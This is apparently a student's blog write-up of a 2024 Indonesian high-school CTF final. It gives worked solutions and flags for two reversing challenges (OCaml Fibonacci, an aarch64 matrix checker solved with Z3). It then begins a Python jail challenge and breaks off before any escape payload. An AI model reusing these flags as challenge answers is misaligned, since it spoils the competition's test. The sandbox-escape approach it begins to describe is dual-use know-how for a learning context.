

## Cyber Jawara High School 2024 Final

Cyber Jawara is a national CTF held by CSIRT.id and Indonesia Network Security Association.
It's quite a well-known competition,
as it has ran for more than a decade now,
and there's a competition division for high school students!

All solve is by me :p  
We were so close to getting to top 3, but...
Well, maybe next time,
though genggx. managed to upsolve a pwn chall minutes after it ends ;;

Also, this might be the first write-up only available on my blog!! (i.e. no gdocs ver.)  
**You can get the challenges files on my CTF repo!**  
Anyway, happy reading!! :DD

## REVERSE ENGINEERING

### [140] Camel White [12 Solves]

#### Summary

OCaml fibonacci optimization!

#### Solution

We're only given one file, `main.ml`:


let rec f n = if n <= 1 then n else f (n - 1) + f (n - 2)
let x n = (f n) lxor (n * n)

let () =
  Printf.printf "CJ{";
  let data = [13; 37; 69; 420; 666; 1337] in
  (* let data = [13] in *)
  let rec display item = match item with
    | [] -> Printf.printf "}\n"
    | hd :: tl -> Printf.printf "%x" (x hd); display tl
  in
    display data


So, let $f_{n}$ be the $(n + 4)^{th}$ fibonacci number.
This means, $f_{2}$ is $5$,
because the fibonacci sequence starts with $0, 1, 1, 2, 3, 5$,
and the sixth one is $5$!!  
A bit weird, but that's just how it's here.  


What it does is simply print the hexadecimal value for each $n$ defined as `data` there,
and encapsulate them with `CJ{}`, the flag format.

Now, why don't we just run it?  
Because this is unoptimized!  
It'll take a *really* long time for the program to calculate the fibonacci numbers.

The solution here is to simply optimize the fibonacci function, `f`:


let fib n =
  let rec aux a b i =
    if i = n then a
    else aux b (a + b) (i + 1)
  in aux 0 1 0


Yup!! That's all it takes.
I had to download `ocaml` to run this,
but other than that, just run the optimized code!!

**Flag: `CJ{401709b206b04f4c2ecdb29ab0c75b437d2a04e5fe72d81a0fdc45bca02e710d983c}`**  
**Rating: [4/10]**

I tried making the solver in python,
but because it has no limit on the size of integer,
the resulting flag is wayy wayy longerr,
so it's wrong!  
I don't understand the syntax,
but as always,
the Transformer NN is there to help :>

### [500] 🩸 Gudang Garam 🩸 [1 Solve]

#### Summary

aarch64 asm to C, as always, then rev it, EZZ...

#### Solution

So, the given asm file is quite big,



main:	file format mach-o arm64

Disassembly of section __TEXT,__text:

0000000100003d74 <_check>:
100003d74: d10083ff    	sub	sp, sp, #0x20
100003d78: f9000be0    	str	x0, [sp, #0x10]
100003d7c: b90007ff    	str	wzr, [sp, #0x4]
100003d80: b9000fff    	str	wzr, [sp, #0xc]
100003d84: 14000001    	b	0x100003d88 <_check+0x14>
100003d88: b9400fe8    	ldr	w8, [sp, #0xc]
100003d8c: 7100b108    	subs	w8, w8, #0x2c
100003d90: 1a9fb7e8    	cset	w8, ge
100003d94: 370005c8    	tbnz	w8, #0x0, 0x100003e4c <_check+0xd8>
100003d98: 14000001    	b	0x100003d9c <_check+0x28>
100003d9c: b90003ff    	str	wzr, [sp]
100003da0: b9000bff    	str	wzr, [sp, #0x8]
100003da4: 14000001    	b	0x100003da8 <_check+0x34>
100003da8: b9400be8    	ldr	w8, [sp, #0x8]
100003dac: 7100b108    	subs	w8, w8, #0x2c
100003db0: 1a9fb7e8    	cset	w8, ge
100003db4: 370002c8    	tbnz	w8, #0x0, 0x100003e0c <_check+0x98>
100003db8: 14000001    	b	0x100003dbc <_check+0x48>
100003dbc: b9800fe8    	ldrsw	x8, [sp, #0xc]
100003dc0: d2801609    	mov	x9, #0xb0               ; =176
100003dc4: 9b097d09    	mul	x9, x8, x9
100003dc8: b0000028    	adrp	x8, 0x100008000 <_X>
100003dcc: 91000108    	add	x8, x8, #0x0
100003dd0: 8b090108    	add	x8, x8, x9
100003dd4: b9800be9    	ldrsw	x9, [sp, #0x8]
100003dd8: b8697908    	ldr	w8, [x8, x9, lsl #2]
100003ddc: f9400be9    	ldr	x9, [sp, #0x10]
100003de0: b9800bea    	ldrsw	x10, [sp, #0x8]
100003de4: 38ea6929    	ldrsb	w9, [x9, x10]
100003de8: 1b097d09    	mul	w9, w8, w9
100003dec: b94003e8    	ldr	w8, [sp]
100003df0: 0b090108    	add	w8, w8, w9
100003df4: b90003e8    	str	w8, [sp]
100003df8: 14000001    	b	0x100003dfc <_check+0x88>
100003dfc: b9400be8    	ldr	w8, [sp, #0x8]
100003e00: 11000508    	add	w8, w8, #0x1
100003e04: b9000be8    	str	w8, [sp, #0x8]
100003e08: 17ffffe8    	b	0x100003da8 <_check+0x34>
100003e0c: b94003e8    	ldr	w8, [sp]
100003e10: b9800fea    	ldrsw	x10, [sp, #0xc]
100003e14: d0000029    	adrp	x9, 0x100009000 <_X+0x1000>
100003e18: 91390129    	add	x9, x9, #0xe40
100003e1c: b86a7929    	ldr	w9, [x9, x10, lsl #2]
100003e20: 6b090108    	subs	w8, w8, w9
100003e24: 1a9f17e8    	cset	w8, eq
100003e28: 37000088    	tbnz	w8, #0x0, 0x100003e38 <_check+0xc4>
100003e2c: 14000001    	b	0x100003e30 <_check+0xbc>
100003e30: b9001fff    	str	wzr, [sp, #0x1c]
100003e34: 14000009    	b	0x100003e58 <_check+0xe4>
100003e38: 14000001    	b	0x100003e3c <_check+0xc8>
100003e3c: b9400fe8    	ldr	w8, [sp, #0xc]
100003e40: 11000508    	add	w8, w8, #0x1
100003e44: b9000fe8    	str	w8, [sp, #0xc]
100003e48: 17ffffd0    	b	0x100003d88 <_check+0x14>
100003e4c: 52800028    	mov	w8, #0x1                ; =1
100003e50: b9001fe8    	str	w8, [sp, #0x1c]
100003e54: 14000001    	b	0x100003e58 <_check+0xe4>
100003e58: b9401fe0    	ldr	w0, [sp, #0x1c]
100003e5c: 910083ff    	add	sp, sp, #0x20
100003e60: d65f03c0    	ret

0000000100003e64 <_main>:
100003e64: d100c3ff    	sub	sp, sp, #0x30
100003e68: a9027bfd    	stp	x29, x30, [sp, #0x20]
100003e6c: 910083fd    	add	x29, sp, #0x20
100003e70: b81fc3bf    	stur	wzr, [x29, #-0x4]
100003e74: b81f83a0    	stur	w0, [x29, #-0x8] ; argc
100003e78: f9000be1    	str	x1, [sp, #0x10]
100003e7c: b85f83a8    	ldur	w8, [x29, #-0x8]
100003e80: 71000908    	subs	w8, w8, #0x2
100003e84: 1a9fb7e8    	cset	w8, ge
100003e88: 37000188    	tbnz	w8, #0x0, 0x100003eb8 <_main+0x54>
100003e8c: 14000001    	b	0x100003e90 <_main+0x2c>
100003e90: f9400be8    	ldr	x8, [sp, #0x10]
100003e94: f9400108    	ldr	x8, [x8]
100003e98: 910003e9    	mov	x9, sp
100003e9c: f9000128    	str	x8, [x9]
100003ea0: 90000000    	adrp	x0, 0x100003000 <_strlen+0x100003000>
100003ea4: 913d6000    	add	x0, x0, #0xf58
100003ea8: 94000026    	bl	0x100003f40 <_strlen+0x100003f40>
100003eac: 52800028    	mov	w8, #0x1                ; =1
100003eb0: b81fc3a8    	stur	w8, [x29, #-0x4]
100003eb4: 1400001f    	b	0x100003f30 <_main+0xcc>
100003eb8: f9400be8    	ldr	x8, [sp, #0x10]
100003ebc: f9400500    	ldr	x0, [x8, #0x8]
100003ec0: 94000023    	bl	0x100003f4c <_strlen+0x100003f4c>
100003ec4: f100b008    	subs	x8, x0, #0x2c
100003ec8: 1a9f17e8    	cset	w8, eq
100003ecc: 37000108    	tbnz	w8, #0x0, 0x100003eec <_main+0x88>
100003ed0: 14000001    	b	0x100003ed4 <_main+0x70>
100003ed4: 90000000    	adrp	x0, 0x100003000 <_strlen+0x100003000>
100003ed8: 913da800    	add	x0, x0, #0xf6a
100003edc: 94000019    	bl	0x100003f40 <_strlen+0x100003f40>
100003ee0: 52800028    	mov	w8, #0x1                ; =1
100003ee4: b81fc3a8    	stur	w8, [x29, #-0x4]
100003ee8: 14000012    	b	0x100003f30 <_main+0xcc>
100003eec: f9400be8    	ldr	x8, [sp, #0x10]
100003ef0: f9400500    	ldr	x0, [x8, #0x8]
100003ef4: 97ffffa0    	bl	0x100003d74 <_check>
100003ef8: 71000008    	subs	w8, w0, #0x0
100003efc: 1a9f17e8    	cset	w8, eq
100003f00: 370000c8    	tbnz	w8, #0x0, 0x100003f18 <_main+0xb4>
100003f04: 14000001    	b	0x100003f08 <_main+0xa4>
100003f08: 90000000    	adrp	x0, 0x100003000 <_strlen+0x100003000>
100003f0c: 913dfc00    	add	x0, x0, #0xf7f
100003f10: 9400000c    	bl	0x100003f40 <_strlen+0x100003f40>
100003f14: 14000005    	b	0x100003f28 <_main+0xc4>
100003f18: 90000000    	adrp	x0, 0x100003000 <_strlen+0x100003000>
100003f1c: 913e3800    	add	x0, x0, #0xf8e
100003f20: 94000008    	bl	0x100003f40 <_strlen+0x100003f40>
100003f24: 14000001    	b	0x100003f28 <_main+0xc4>
100003f28: b81fc3bf    	stur	wzr, [x29, #-0x4]
100003f2c: 14000001    	b	0x100003f30 <_main+0xcc>
100003f30: b85fc3a0    	ldur	w0, [x29, #-0x4]
100003f34: a9427bfd    	ldp	x29, x30, [sp, #0x20]
100003f38: 9100c3ff    	add	sp, sp, #0x30
100003f3c: d65f03c0    	ret

Disassembly of section __TEXT,__stubs:

0000000100003f40 <__stubs>:
--------------- snip ---------------

Disassembly of section __TEXT,__cstring:

0000000100003f58 <__cstring>:
100003f58: 67617355    	<unknown> ; Usage: %s <flag>
--------------- snip ---------------
100003f68: 6e49000a    	<unknown> ; Invalid flag length
--------------- snip ---------------
100003f7c: 43000a68    	<unknown> ; Correct flag!
--------------- snip ---------------
100003f8c: 6e49000a    	<unknown> ; Incorrect flag
--------------- snip ---------------
100003f9c: 21 0a 00    	<unknown> ; !

Disassembly of section __TEXT,__unwind_info:

0000000100003fa0 <__unwind_info>:
--------------- snip ---------------

Disassembly of section __DATA_CONST,__got:

0000000100004000 <__got>:
--------------- snip ---------------

Disassembly of section __DATA,__data:

0000000100008000 <_X>:
100008000: 0000000c    	udf	#0xc
100008004: 00000014    	udf	#0x14
--------------- snip ---------------
100009e38: 00000009    	udf	#0x9
100009e3c: 0000000d    	udf	#0xd

0000000100009e40 <_Y>:
100009e40: 00012636    	<unknown>
100009e44: 0000fb4f    	udf	#0xfb4f
--------------- snip ---------------
100009ee8: 00010af8    	<unknown>
100009eec: 000110d5    	<unknown>


2175 lines 💀💀  
Most of it are just data though.

Doing this manually would be tiring, isn't it?  
Just give an 'expert system' the `main` and `check` function!  

Gemini turned it to C:


#include <stdio.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

// Assuming _strlen is available (likely from the standard library)
size_t strlen(const char *s);

// Placeholder for the data at the addresses referenced in the assembly
// You'll need to define these based on your specific application.
// For example, if _X is an array of ints, you'd declare it like this:
// int32_t _X[...];
// The size of the array depends on the context of the assembly.
// The assembly code accesses _X and _X+0x1000, so it's likely an array
// with at least 0x1000/4 = 1024 elements (assuming 32-bit ints).

// Example (adjust as needed):
int32_t _X[2048]; // Example size, adjust as needed

// Function corresponding to the _check label
int32_t check(int32_t arg0) {
    int32_t local_c;
    int32_t local_8;
    int32_t local_0;
    int32_t result;

    local_c = 0;
    local_8 = 0;

    if (arg0 - 0x2c >= 0) {
        goto check_greater_than_or_equal;
    } else {
      goto check_less_than;
    }

check_greater_than_or_equal:
    while (true) {
        local_8++;
        if (local_8 - 0x2c >= 0) {
            int32_t val_at_X = _X[local_8 * 0xb0 / 4]; // Accessing _X

            local_0 = 0;
            while (true) {
                int32_t val_at_arg0 = *((int8_t*)((uint8_t*)arg0 + local_8)); // Accessing arg0 as a char *
                local_0 = local_0 + val_at_X * val_at_arg0;
                if (local_8 + 1 - 0x2c < 0) {
                    break;
                }
                local_8++;
            }

            if (local_c == _X[(local_8 * 0xb0 + 0xe40) / 4]) { // Accessing _X + 0x1000
                return 0; // Return 0 if equal
            }
        } else {
          goto check_less_than;
        }

        if (local_8 - 0x2c < 0) {
            break;
        }
    }

check_less_than:
    result = 1; // Return 1 if condition not met in loop
    return result;
}


int main(int argc, char *argv[]) {
    int32_t return_code = 0;

    if (argc - 2 >= 0) {
        // Check if at least 2 arguments are provided
        if (strlen(argv[1]) == 0x2c) {
            // Compare length of the second argument
            return_code = 1; // Set return code to 1
        } else {
            return_code = check(argv[1]);
            if (return_code == 0) {
                return_code = 1;  // Set return code to 1
            } else {
                return_code = 0;
            }
        }
    } else {
      return_code = 1;
    }

    return return_code;
}


You can clearly see `main` just checks for input length,
then passing the first argument `argv[1]` to `check`.
Our input is using program argument, 
as in `./garam CJ{flek}`.
It has to be 44 (0x2c) chars.

Also, that's quite a low level definition of `check`.
It checks input length again (useless),
then iterate 44 times to calculate $\Sigma_{0}^{43} f_{i} \times X_{i}$,
but it's unclear how it access `X`.

If you notice something on Gemini's output,
it multiplies index `local_8` (outer loop) with `0xB0` (176).
Since the size of each element is 4 bytes (see asm code),
then $\frac{176}{4} = 44$.  
Ahh!!  
So, `X` is an 2D array of $44 \times 44$ size!

Let's see what the other say about this.
Claude give us this for `check`:


int check(char* input) {
    int sum = 0;
    
    for (int i = 0; i < 44; i++) {
        sum = 0;
        for (int j = 0; j < 44; j++) {
            extern int X[44][44];
            sum += X[i][j] * input[j];
        }
        
        extern int Y[44];
        if (sum != Y[i]) {
            return 0;
        }
    }
    
    return 1;
}


It successfully identifies `X` as a 2D array.
Immediately, I realize what Y actually for here.
I can express it like: 
$$\left( Y_{i} = \Sigma_{j = 0}^{43} f_{j} \times X_{i,j} \right) \forall i \in \\{0,1,...,43\\}$$
I know you get what that means ;)  
Like, do I need to explain it?
The code should be enough.

Now, just turn the asm `X` to a 2D python array,
and also `Y`,
then with known values `CJ{}`,
we use Z3 to solve it!  
It's simple really, here's the solver:


from z3 import *

s = Solver()
x = [[12, 27, 3, 31, 41, 11, 12, 42, 9, 20, 40, 40, 7, 30, 21, 40, 9, 13, 22, 34, 9, 42, 5, 1, 42, 29, 29, 36, 23, 16, 35, 15, 40, 14, 17, 4, 27, 27, 14, 11, 10, 10, 1, 32], [20, 1, 15, 28, 17, 17, 22, 35, 37, 24, 34, 20, 1, 29, 8, 5, 13, 41, 16, 22, 17, 16, 7, 3, 11, 32, 34, 15, 31, 26, 29, 14, 7, 16, 16, 11, 13, 26, 13, 18, 7, 14, 22, 14], [31, 13, 39, 28, 43, 15, 6, 26, 30, 8, 11, 26, 7, 12, 37, 23, 26, 29, 5, 22, 6, 30, 36, 40, 25, 30, 19, 6, 19, 24, 11, 36, 32, 38, 37, 26, 14, 41, 24, 36, 32, 5, 22, 38], [12, 10, 6, 28, 26, 1, 26, 19, 6, 32, 26, 31, 32, 32, 37, 40, 9, 32, 11, 9, 24, 3, 33, 1, 5, 41, 20, 37, 35, 13, 43, 8, 5, 18, 34, 16, 31, 13, 8, 12, 38, 14, 35, 21], [27, 20, 35, 3, 13, 14, 14, 40, 18, 20, 14, 3, 40, 16, 15, 2, 19, 17, 23, 14, 36, 2, 37, 15, 10, 1, 19, 9, 8, 30, 28, 33, 30, 35, 39, 21, 41, 17, 3, 23, 12, 19, 33, 40], [2, 18, 6, 19, 1, 30, 17, 27, 14, 43, 37, 5, 2, 27, 18, 1, 42, 42, 14, 41, 41, 29, 23, 38, 32, 22, 33, 28, 1, 14, 33, 38, 6, 39, 5, 32, 12, 29, 43, 16, 3, 39, 27, 31], [33, 17, 35, 27, 29, 14, 35, 6, 36, 12, 33, 39, 10, 41, 9, 25, 10, 39, 34, 22, 4, 10, 3, 21, 16, 24, 1, 31, 7, 11, 19, 43, 24, 36, 30, 26, 7, 1, 8, 12, 34, 16, 8, 42], [35, 30, 42, 13, 29, 35, 40, 37, 24, 29, 16, 22, 34, 25, 28, 18, 11, 37, 40, 38, 40, 18, 22, 34, 6, 18, 38, 32, 20, 4, 27, 43, 11, 31, 41, 25, 22, 18, 35, 3, 7, 5, 15, 40], [9, 4, 26, 21, 30, 38, 19, 29, 41, 43, 28, 16, 3, 34, 38, 28, 1, 33, 37, 15, 1, 12, 27, 26, 9, 4, 18, 22, 40, 21, 18, 28, 39, 28, 10, 1, 16, 26, 41, 28, 18, 23, 37, 24], [27, 13, 27, 6, 35, 39, 15, 10, 43, 2, 15, 2, 16, 30, 8, 11, 36, 9, 31, 17, 27, 15, 30, 41, 18, 28, 2, 32, 13, 37, 17, 42, 35, 32, 30, 43, 25, 3, 42, 20, 38, 12, 27, 32], [25, 23, 21, 1, 16, 34, 36, 32, 17, 17, 2, 34, 7, 32, 10, 17, 20, 24, 42, 19, 28, 26, 25, 28, 18, 33, 21, 15, 6, 1, 16, 42, 6, 34, 7, 16, 36, 8, 34, 24, 27, 18, 26, 14], [33, 30, 24, 11, 37, 18, 43, 5, 25, 8, 17, 14, 5, 38, 14, 12, 4, 29, 14, 35, 41, 15, 14, 9, 15, 34, 21, 17, 19, 25, 3, 17, 16, 23, 11, 40, 32, 5, 32, 12, 21, 5, 26, 17], [19, 41, 9, 4, 43, 20, 16, 25, 36, 1, 8, 38, 15, 36, 10, 4, 20, 28, 20, 13, 29, 4, 25, 30, 16, 30, 31, 9, 16, 15, 22, 10, 29, 13, 41, 13, 20, 37, 18, 15, 40, 33, 17, 17], [9, 1, 13, 31, 28, 32, 13, 18, 3, 22, 1, 24, 17, 43, 20, 29, 10, 6, 43, 32, 30, 40, 36, 9, 16, 15, 7, 39, 29, 15, 43, 17, 37, 15, 30, 34, 17, 14, 32, 10, 37, 41, 21, 38], [4, 24, 2, 25, 5, 19, 40, 41, 30, 13, 17, 42, 1, 5, 32, 4, 14, 25, 33, 38, 6, 11, 26, 5, 4, 25, 4, 23, 25, 5, 39, 22, 37, 12, 29, 43, 10, 34, 12, 14, 22, 22, 27, 6], [27, 42, 12, 1, 3, 29, 30, 31, 16, 24, 1, 34, 9, 7, 22, 6, 18, 32, 14, 12, 30, 41, 1, 19, 33, 26, 22, 1, 31, 19, 17, 30, 10, 41, 28, 32, 18, 9, 31, 43, 38, 8, 23, 7], [40, 2, 5, 2, 7, 38, 22, 36, 37, 30, 37, 27, 38, 14, 8, 9, 34, 39, 38, 10, 19, 16, 9, 34, 3, 1, 19, 31, 1, 31, 11, 10, 17, 2, 6, 22, 17, 11, 42, 8, 22, 27, 12, 32], [22, 25, 21, 43, 7, 39, 35, 33, 19, 16, 29, 9, 41, 33, 39, 8, 21, 17, 7, 16, 21, 22, 17, 23, 17, 38, 18, 20, 26, 43, 10, 29, 15, 31, 7, 20, 22, 22, 16, 11, 14, 32, 15, 9], [42, 6, 32, 32, 42, 28, 17, 21, 9, 5, 38, 24, 30, 38, 31, 25, 43, 10, 41, 21, 3, 6, 24, 31, 26, 33, 1, 12, 8, 6, 26, 2, 37, 42, 16, 3, 4, 25, 34, 6, 19, 15, 5, 14], [36, 32, 26, 28, 7, 43, 34, 24, 4, 5, 35, 9, 17, 3, 38, 22, 7, 12, 8, 41, 26, 22, 26, 25, 12, 23, 17, 42, 34, 15, 37, 19, 18, 43, 4, 41, 33, 35, 27, 17, 27, 32, 11, 25], [29, 16, 27, 7, 14, 4, 5, 26, 13, 4, 11, 14, 2, 22, 5, 9, 32, 32, 27, 14, 33, 35, 27, 38, 12, 2, 34, 40, 11, 38, 22, 7, 10, 29, 28, 1, 7, 43, 13, 34, 2, 39, 4, 11], [24, 34, 30, 34, 25, 23, 17, 5, 28, 33, 4, 36, 23, 32, 1, 21, 35, 22, 7, 28, 28, 34, 41, 31, 1, 38, 34, 1, 24, 23, 24, 7, 1, 25, 41, 32, 14, 40, 23, 35, 27, 8, 43, 13], [2, 23, 3, 24, 13, 36, 30, 12, 17, 15, 30, 31, 28, 19, 2, 7, 25, 41, 39, 23, 14, 25, 18, 35, 17, 18, 31, 1, 1, 23, 19, 20, 27, 7, 42, 25, 17, 7, 38, 12, 41, 2, 2, 13], [5, 2, 19, 16, 2, 2, 28, 10, 40, 19, 22, 1, 37, 39, 6, 34, 43, 2, 26, 37, 34, 4, 34, 6, 21, 20, 12, 18, 9, 33, 14, 20, 2, 6, 41, 15, 4, 19, 15, 8, 40, 43, 21, 3], [25, 20, 17, 31, 11, 9, 32, 19, 40, 25, 21, 25, 33, 37, 39, 14, 37, 36, 2, 18, 11, 8, 10, 20, 22, 8, 21, 22, 12, 40, 31, 10, 13, 27, 29, 16, 29, 23, 18, 33, 39, 13, 41, 13], [7, 43, 6, 2, 12, 40, 31, 16, 18, 16, 33, 36, 18, 40, 2, 38, 6, 34, 35, 41, 24, 5, 8, 28, 21, 40, 24, 35, 24, 10, 8, 37, 9, 29, 8, 5, 15, 1, 10, 6, 42, 2, 30, 40], [27, 8, 2, 2, 40, 5, 33, 40, 20, 37, 2, 31, 31, 13, 23, 41, 2, 18, 5, 3, 14, 41, 4, 10, 6, 12, 20, 23, 14, 12, 29, 20, 25, 34, 23, 9, 41, 21, 31, 29, 15, 31, 19, 24], [39, 5, 33, 19, 7, 20, 28, 2, 13, 37, 13, 32, 32, 1, 41, 1, 16, 28, 30, 40, 17, 40, 37, 24, 41, 25, 23, 30, 26, 26, 13, 5, 15, 8, 15, 20, 13, 36, 4, 7, 12, 6, 24, 38], [19, 16, 22, 27, 6, 10, 11, 3, 23, 4, 34, 10, 37, 36, 39, 20, 14, 37, 38, 6, 5, 37, 41, 17, 20, 31, 10, 1, 14, 30, 26, 3, 43, 30, 13, 13, 29, 27, 28, 27, 40, 34, 24, 29], [36, 13, 41, 42, 32, 38, 12, 30, 26, 40, 9, 10, 20, 41, 16, 27, 27, 3, 4, 39, 39, 43, 19, 12, 3, 26, 24, 19, 3, 9, 21, 5, 39, 16, 11, 40, 12, 15, 29, 28, 3, 16, 18, 16], [31, 25, 1, 31, 21, 9, 23, 37, 2, 32, 10, 19, 1, 33, 38, 15, 25, 22, 41, 35, 2, 11, 6, 3, 32, 26, 36, 42, 3, 29, 32, 43, 3, 13, 13, 38, 26, 7, 16, 37, 10, 37, 15, 29], [7, 26, 13, 7, 2, 28, 32, 10, 43, 15, 31, 36, 40, 43, 17, 26, 23, 4, 31, 19, 34, 12, 23, 29, 25, 20, 19, 9, 25, 4, 25, 9, 12, 8, 11, 37, 40, 40, 15, 7, 21, 33, 20, 8], [18, 10, 38, 31, 5, 43, 10, 35, 33, 39, 6, 30, 15, 30, 31, 31, 30, 26, 40, 16, 22, 1, 16, 11, 5, 3, 42, 37, 36, 39, 42, 11, 13, 24, 40, 9, 40, 20, 11, 29, 18, 13, 1, 9], [26, 43, 28, 9, 17, 5, 19, 8, 22, 31, 28, 25, 7, 42, 9, 5, 35, 14, 28, 36, 27, 2, 41, 29, 14, 33, 29, 14, 39, 10, 41, 40, 32, 17, 35, 11, 27, 38, 16, 8, 28, 28, 27, 18], [32, 16, 31, 38, 31, 43, 15, 8, 34, 26, 5, 1, 39, 13, 10, 21, 43, 18, 20, 2, 30, 19, 14, 23, 12, 13, 11, 43, 42, 37, 5, 8, 17, 6, 9, 33, 31, 29, 6, 25, 35, 37, 30, 1], [6, 26, 15, 42, 40, 31, 27, 4, 7, 26, 21, 33, 8, 8, 24, 40, 12, 15, 43, 43, 21, 43, 29, 2, 15, 29, 35, 36, 26, 7, 12, 23, 7, 20, 8, 31, 35, 25, 29, 39, 30, 22, 41, 26], [38, 21, 38, 39, 38, 27, 40, 39, 42, 33, 22, 19, 31, 33, 31, 10, 41, 17, 25, 22, 22, 2, 42, 31, 7, 22, 1, 32, 25, 21, 26, 1, 37, 35, 41, 39, 8, 1, 20, 16, 5, 13, 28, 35], [18, 19, 14, 4, 18, 38, 34, 7, 3, 17, 13, 43, 9, 37, 7, 15, 37, 1, 42, 16, 7, 40, 41, 15, 23, 16, 43, 9, 22, 21, 1, 4, 2, 6, 6, 31, 40, 38, 35, 38, 28, 33, 18, 15], [27, 2, 16, 8, 15, 16, 11, 19, 6, 1, 20, 1, 12, 35, 21, 34, 26, 37, 6, 12, 11, 19, 34, 24, 32, 27, 9, 10, 39, 23, 23, 14, 42, 19, 38, 1, 31, 31, 18, 18, 30, 8, 4, 3], [19, 27, 28, 22, 39, 7, 29, 35, 35, 4, 23, 5, 21, 19, 6, 36, 24, 5, 14, 8, 5, 32, 1, 11, 41, 35, 16, 6, 27, 30, 4, 6, 37, 43, 29, 41, 7, 12, 22, 28, 16, 21, 19, 6], [4, 22, 6, 11, 10, 23, 24, 43, 22, 22, 34, 17, 25, 25, 13, 35, 36, 42, 16, 23, 4, 32, 19, 43, 34, 4, 27, 4, 18, 26, 25, 11, 27, 16, 23, 34, 39, 37, 18, 3, 17, 25, 27, 8], [6, 32, 16, 36, 22, 28, 15, 21, 4, 30, 25, 6, 19, 28, 12, 19, 41, 31, 4, 40, 23, 24, 38, 18, 26, 41, 22, 13, 34, 2, 14, 40, 25, 9, 14, 26, 40, 23, 37, 9, 10, 20, 31, 17], [31, 30, 19, 28, 42, 3, 22, 5, 35, 36, 25, 28, 6, 35, 2, 21, 4, 36, 33, 9, 20, 31, 24, 2, 20, 38, 34, 31, 11, 22, 33, 41, 43, 33, 30, 6, 36, 27, 29, 21, 30, 39, 27, 9], [24, 5, 2, 40, 19, 18, 7, 34, 15, 31, 2, 12, 31, 4, 3, 25, 27, 29, 30, 19, 43, 36, 1, 27, 7, 37, 11, 38, 40, 28, 24, 24, 19, 33, 22, 25, 20, 11, 1, 8, 12, 15, 2, 13]]
y = [0x00012636, 0x0000fb4f, 0x00010834, 0x00011266, 0x00011b72, 0x00013eee, 0x000131b5, 0x00013ae5, 0x00012772, 0x00011e8b, 0x0000f6e3, 0x000126e4, 0x00010084, 0x0001545a, 0x0000fe2e, 0x00011025, 0x000122c8, 0x00013788, 0x000148ff, 0x000132c3, 0x00011e01, 0x00013481, 0x00012214, 0x000117c6, 0x0000e920, 0x0001367a, 0x000123ef, 0x00012a95, 0x000119e5, 0x00011518, 0x00011f09, 0x00010fba, 0x000113bb, 0x00013f23, 0x000129ec, 0x00012814, 0x00012a26, 0x0001258e, 0x00012b5b, 0x000106dd, 0x00012f09, 0x000116a1, 0x00010af8, 0x000110d5]
flag = [BitVec(f'f{i:02d}', 8) for i in range(44)]

s.add(flag[0] == ord('C'))
s.add(flag[1] == ord('J'))
s.add(flag[2] == ord('{'))
s.add(flag[43] == ord('}'))

for i in range(44):
    sum = 0
    for j in range(44):
        sum += x[j][i] * flag[j]
    s.add(sum == y[i])

if s.check() == sat:
    model = s.model()
    for i, ss in enumerate(model):
        print(chr(model[flag[i]].as_long()), end='')
    print()


**Flag: `CJ{3928ee5e0db2daa3eb87c6bee7c14e20d5f7d906}`**  
**Rating: [6/10]**

I'm writing this write-up on the train lol.
It's 22:42 right now.
Gotta sleep :p

## Misc

### [410] Baby Pyjail [4 Solves]

#### Summary

A standard no builtins pyjail, without length limit.

#### Solution

So, we're given these files: `Dockerfile`, which contains [instructions](https://www.google.com/search?q=dockerfile+is&sourceid=chrome&ie=UTF-8#:~:text=Dockerfile%20reference,%E2%80%BA%20reference%20%E2%80%BA%20dockerfile) for building an Docker image;  
`docker-compose.yml`, which 'define and share multi-container applications';  
'flag.txt', our read target, locally contains `REDACTED`; and  
`jail.py`, the Python code for the jail itself.

Let's see the docker files first!


# Dockerfile
FROM python:3.10-alpine AS app

FROM pwn.red/jail
COPY --from=app / /srv
COPY jail.py /srv/app/run
RUN chmod +x /srv/app/run
COPY flag.txt /srv/flag.txt

RUN chmod 444 /srv/flag.txt && mv /srv/flag.txt /srv/flag-$(head -c8 /dev/urandom | md5sum | tr -cd '[:alnum:]')
ENV JAIL_MEM=20M


This setup the docker image.
You can see at line 10, it rename the file with a random md5sum.
So, this means that we need to at least `ls` the file system to know the actual name in the remote instance.


version: '3'

services:
  baby-pyjail:
    build: .
    restart: on-failure
    privileged: true
    ports:
      - 7041:5000


So, I guess we're privileged, hehe.
You can't delete the flag file though,
since it was set to read-only for all users (including root).

Aight, now how about the jail itself?


#!/usr/local/bin/python3 -S

def run_code(code):
    # print(code)
    # e(code, {'__builtins__': None, 'i': i})
    e(code, {'__builtins__': None})

i, e = input, exec
user_input = i('>>> ')

try:
    run_code(user_input)
    # print('ran')
except:
    # print('except')
    pass


Really short, it just sets `__builtins__` to `None`,
effectively deleting it.
built-in functions like `open` or `import` is gone.
But, we can recover builtins,
as object types still exists,
like `()`, a tuple,
or '""', a str.

I debug this locally by building the docker,
and modifying `jail.py` to print the result of the payload,
either exception or ran.
I also add `i` to the `e` globals argument,
so I can call it to see what an expression returns.
You can see these with the commented codes above.

I started with getting the `object` class,

